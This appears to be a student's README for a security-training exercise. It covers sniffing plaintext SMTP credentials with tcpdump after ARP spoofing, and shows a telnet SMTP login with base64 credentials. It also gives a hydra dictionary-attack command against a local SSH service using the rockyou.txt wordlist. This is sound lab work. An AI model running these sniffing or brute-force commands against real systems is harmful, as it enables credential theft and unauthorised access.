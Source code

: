 # Attack is the best Defense

## Tasks

<details>
<summary><a href="./0-sniffing">0. ARP spoofing and sniffing unencrypted traffic</a></summary><br>

<a href='https://postimg.cc/dZFTgZM5' target='_blank'><img src='https://i.postimg.cc/nrjYjq3f/image.png' border='0' alt='image'/></a>

```sh
sylvain@ubuntu$ telnet smtp.sendgrid.net 587
Trying 167.89.121.145...
Connected to smtp.sendgrid.net.
Escape character is '^]'.
220 SG ESMTP service ready at ismtpd0013p1las1.sendgrid.net
EHLO ismtpd0013p1las1.sendgrid.net
250-smtp.sendgrid.net
250-8BITMIME
250-PIPELINING
250-SIZE 31457280
250-STARTTLS
250-AUTH PLAIN LOGIN
250 AUTH=PLAIN LOGIN
auth login           
334 VXNlcm5hbWU6
VGhpcyBpcyBteSBsb2dpbg==
334 UGFzc3dvcmQ6
WW91IHJlYWxseSB0aG91Z2h0IEkgd291bGQgbGV0IG15IHBhc3N3b3JkIGhlcmU/ISA6RA==
235 Authentication successful
mail from: sylvain@kalache.fr
250 Sender address accepted
rcpt to: julien@google.com
250 Recipient address accepted
data
354 Continue
To: Julien
From: Sylvain
Subject: Hello from the insecure world

I am sending you this email from a Terminal.
.
250 Ok: queued as Aq1zhMM3QYeEprixUiFYNg
quit
221 See you later
Connection closed by foreign host.
sylvain@ubuntu$ 
```

<a href='https://postimages.org/' target='_blank'><img src='https://i.postimg.cc/kG0NxDH6/image.png' border='0' alt='image'/></a>

```sh
# Run this when there is no other process running,
# ...tried to find a way to specifically filter the specif process but
# ...the best option was to run it in a virtual enviroment
# ...also base64 should be your best friend
sudo tcpdump -A -l
```

- [user\_authenticating\_into\_server](./user_authenticating_into_server) binary script file.

</details>

<details>
<summary><a href="./1-dictionary_attack">1. Dictionary attack</a></summary><br>

<a href="https://ibb.co/Ltr6sZh"><img src="https://i.ibb.co/7WQV01N/image.png" alt="image" border="0"></a>

- [Wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) **Rockyou.txt**

```sh
# command
hydra -V -s 2222 -l sylvain -P rockyou.txt 127.0.0.1 ssh -t 64
```

</details>

## Resources

- [Network sniffing](https://www.lifewire.com/definition-of-sniffer-817996)
- [ARP spoofing](https://www.veracode.com/security/arp-spoofing)
- [Connect to SendGrid’s SMTP relay using telnet](https://docs.sendgrid.com/ui/account-and-settings/troubleshooting-delays-and-latency)
- [What is Docker and why is it popular?](https://www.zdnet.com/article/what-is-docker-and-why-is-it-so-darn-popular/)
- [Dictionary attack](https://en.wikipedia.org/wiki/Dictionary_attack)

